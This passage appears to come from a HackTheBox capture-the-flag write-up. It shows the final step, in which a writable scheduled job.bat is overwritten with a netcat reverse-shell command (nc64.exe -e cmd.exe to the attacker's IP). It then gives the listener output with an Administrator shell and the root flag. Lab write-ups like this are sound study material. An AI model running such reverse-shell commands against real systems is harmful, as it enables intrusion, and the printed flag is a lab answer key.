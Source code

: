Now we can override the `job.bat` script with the following command and hope it executes.

`echo C:\Log-Management\nc64.exe -e cmd.exe 10.10.14.15 4444 > C:\Log-Management\job.bat`

After a few executions, we get a connection.

```console
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444 
listening on [any] 4444 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.95.192] 49678
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>ls
'ls' is not recognized as an internal or external command,
operable program or batch file.

C:\Windows\system32>cd C:\Users\Administrator\Desktop

C:\Users\Administrator\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is BA76-B4E3

 Directory of C:\Users\Administrator\Desktop

03/05/2020  07:33 AM    <DIR>          .
03/05/2020  07:33 AM    <DIR>          ..
03/05/2020  07:33 AM                70 root.txt
               1 File(s)             70 bytes
               2 Dir(s)   7,338,610,688 bytes free

C:\Users\Administrator\Desktop>type root.txt    
f574a3e7650cebd8c39784299cb570f8
```

The final flag.

**Flag:** `f574a3e7650cebd8c39784299cb570f8`

---
**Tags:** [[HackTheBox]]
